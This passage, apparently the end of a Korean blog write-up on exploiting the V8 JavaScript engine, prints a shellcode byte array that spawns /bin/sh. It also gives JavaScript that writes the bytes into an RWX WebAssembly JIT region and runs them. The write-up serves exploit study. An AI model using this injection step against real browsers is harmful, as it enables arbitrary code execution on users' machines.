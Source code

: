 <br><br><br>


이제 마지막으로 이전에 선언해두었던 `let shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];
`

셸코드 부분을 

<br><br><br>

```js

// execute shellcode
let view = new DataView(buf);
for (let i = 0; i < shellcode.length; i++) {
    view.setUint8(i, shellcode[i]);  // copy shellcode in rwx memory region
}
sh();  // execute
```

<br><br><br>

DataView를 이용하여 rwx영역을 backing store로 가리키고 있는 buf 버퍼에 셸코드를 작성해줍니다.  <br>
이후 이전에 wasm 부분을 작성할때 exports 해두었던 sh()함수로 JIT코드들을 실행시키면 우리가 
JIT영역에 작성한 셸코드가 실행이 됩니다. 

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(19).png)

<br><br><br>

![시연영상](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/시연영상_HQ.gif)

<br><br><br>








